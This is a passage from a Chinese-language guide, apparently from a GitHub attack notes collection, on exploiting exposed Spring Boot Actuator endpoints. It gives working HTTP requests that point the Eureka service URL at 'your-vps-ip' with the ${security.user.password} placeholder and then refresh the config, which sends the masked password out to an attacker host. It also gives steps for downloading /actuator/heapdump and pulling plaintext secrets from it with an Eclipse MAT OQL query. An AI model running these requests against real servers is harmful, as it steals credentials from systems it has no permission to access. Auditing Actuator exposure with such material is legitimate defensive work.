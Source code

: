 spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```

### 0x06：获取被星号脱敏的密码的明文 (方法四)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口



#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 下载 jvm heap 信息

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

`GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息



##### 步骤三： 使用 MAT 获得 jvm heap 中的密码明文

参考 [文章](https://landgrey.me/blog/16/) 方法，使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 OQL 语句 `select * from org.springframework.web.context.support.StandardServletEnvironment`， 辅助快速过滤分析，获得密码明文
